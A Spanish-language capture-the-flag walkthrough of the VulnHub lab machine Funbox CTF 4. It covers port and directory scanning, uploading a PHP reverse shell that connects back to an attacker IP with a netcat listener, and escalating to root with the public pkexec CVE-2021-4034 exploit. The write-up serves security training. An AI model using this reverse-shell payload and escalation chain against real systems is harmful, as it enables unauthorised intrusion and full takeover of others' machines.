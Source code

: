 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Funbox\_CTF\_4 VulnHub

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-07 13:15 CEST
Nmap scan report for 192.168.5.131
Host is up (0.00037s latency).

PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f6:b3:8f:f1:e3:b7:6c:18:ee:31:22:d3:d4:c9:5f:e6 (RSA)
|   256 45:c2:16:fc:3e:a9:fc:32:fc:36:fb:d7:ce:4f:2b:fe (ECDSA)
|_  256 4f:f8:46:72:22:9f:d3:10:51:9c:49:e0:76:5f:25:33 (ED25519)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
110/tcp open  pop3?
143/tcp open  imap    Dovecot imapd
|_imap-capabilities: CAPABILITY
MAC Address: 00:0C:29:CC:EE:88 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 180.78 seconds
```

En la descripcion de `VulnHub` nos comenta el creador que hay algunos directorios en mayusculas, por lo que probare a entrar en el `robots.txt` pero en mayusculas, por lo que vemos si funciona...

```
URL = http://<IP>/ROBOTS.TXT
```

Y vemos lo siguiente...

```
Disallow: upload/



Disallow: igmseklhgmrjmtherij2145236
```

Si entramos en la segunda `URL`...

```
URL = http://<IP>/igmseklhgmrjmtherij2145236/
```

Veremos un `Forbiden` por lo que le tiraremos un `Gobuster`...

### Gobuster

```shell
gobuster dir -u http://<IP>/igmseklhgmrjmtherij2145236/ -w <WORDLIST> -x html,php,txt -t 50 -k
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.131/igmseklhgmrjmtherij2145236/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/SecList/Web/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 320]
/.php                 (Status: 403) [Size: 319]
/upload               (Status: 301) [Size: 342] [--> http://192.168.5.131/igmseklhgmrjmtherij2145236/upload/]
/upload.html          (Status: 200) [Size: 297]
/upload.php           (Status: 200) [Size: 319]
/.html                (Status: 403) [Size: 320]
/.php                 (Status: 403) [Size: 319]
```

Vemos varias cosas interesantes...

Si nos vamos a `/upload.php` veremos que podemos subir cualquier archivo, por lo que haremos lo siguiente...

> shell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("/bin/sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Creamos un archivo para hacernos una `Reverse Shell` y subimos dicho archivo...

Una vez subido, nos pondra que se subio correctamente y antes de ir al archivo nos pondremos a la escucha...

```shell
nc -lvnp <PORT>
```

Por lo que ahora estando preparados, vamos a la siguiente `URL`...

```
URL = http://<IP>/igmseklhgmrjmtherij2145236/upload/
```

Pero nos pondra otro `Forbiden`, pero como sabemos como se llama nuestro archivo que subimos probaremos a ponerlo en la `URL` seguido del `/upload` de la siguiente manera...

```
URL = http://<IP>/igmseklhgmrjmtherij2145236/upload/shell.php
```

Y si hacemos esto, funcionara, por lo que una vez entres dentro, nos creara una `shell` con el usuario `www-data`...

Por lo que la sanitizaremos...

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Si hacemos lo siguiente...

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Veremos la siguiente linea...

```
38319     24 -rwsr-xr-x   1 root     root    23376 Jan 18  2016 /usr/bin/pkexec
```

Esto actua como un `/bin/bash` que tiene permisos `SUID`, por lo que haremos lo siguiente...

URL = https://github.com/Almorabea/pkexec-exploit

Esto nos lo llevaremos al servidor victima, ya sea copiando el contenido de `python` o transferirlo con algun comando como `curl` o `wget`, pero como no estan instalados ni `curl` y `wget` haremos otra cosa, si nos acordamos de que anteriormente podemos subir archivos desde la pagina web, subiremos el `.py` desde la pagina web y lo moveremos desde terminal hasta `/tmp` para poder iniciarlo...

Una vez hecho todo eso, haremos lo siguiente...

```shell
chmod +x CVE-2021-4034.py
```

```shell
python3 CVE-2021-4034.py
```

Info:

```
Do you want to choose a custom payload? y/n (n use default payload)  n
[+] Cleaning pervious exploiting attempt (if exist)
[+] Creating shared library for exploit code.
[+] Finding a libc library to call execve
[+] Found a library at <CDLL 'libc.so.6', handle 7f9a417d14e8 at 0x7f9a416659b0>
[+] Call execve() with chosen payload
[+] Enjoy your root shell
# whoami
root
#
```

Y con esto ya seriamos `root`, por lo que leeremos la flag...

> flag.txt (flag\_final)

```
(  _`\              ( )                       (  _`\(_   _)(  _`\ 
| (_(_)_   _   ___  | |_      _          _    | ( (_) | |  | (_(_)
|  _) ( ) ( )/' _ `\| '_`\  /'_`\ (`\/')(_)   | |  _  | |  |  _)  
| |   | (_) || ( ) || |_) )( (_) ) >  <  _    | (_( ) | |  | |    
(_)   `\___/'(_) (_)(_,__/'`\___/'(_/\_)(_)   (____/' (_)  (_)    

Well done ! Made with ❤ by @0815R2d2 ! I look forward to see this screenshot on twitter ;-)
```
